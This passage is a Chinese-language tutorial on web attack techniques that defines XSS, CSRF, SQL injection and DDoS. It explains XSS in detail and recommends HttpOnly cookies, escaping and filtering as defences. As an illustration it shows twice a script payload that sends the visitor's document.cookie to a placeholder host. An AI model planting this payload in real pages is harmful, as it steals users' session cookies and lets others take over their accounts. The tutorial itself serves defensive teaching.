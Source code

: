 

[TOC]

### Web 攻击技术

总结一下常见的 Web 攻击方法。

- **XSS攻击**（关键是脚本，利用恶意脚本发起攻击）
- **CSRF攻击**（关键是借助本地 cookie 进行认证，伪造发送请求）
- **SQL注入**（关键是通过用 SQL 语句伪造参数发出攻击）
- **DDOS攻击**（关键是发出大量请求，最后令服务器崩溃）

#### 跨站脚本攻击 XSS

##### 1. 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。从而达到攻击的目的，如盗取用户的 cookie，改变网页的 DOM 结构，重定向到其他网页等。

##### 2. 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

##### 3. 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

##### 4. 防范手段

答案很简单，**坚决不要相信用户的任何输入**，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

###### ① 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

###### ② 过滤特殊字符，进行转义处理

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被**转义**，而 h 和 p 等标签将会保留。
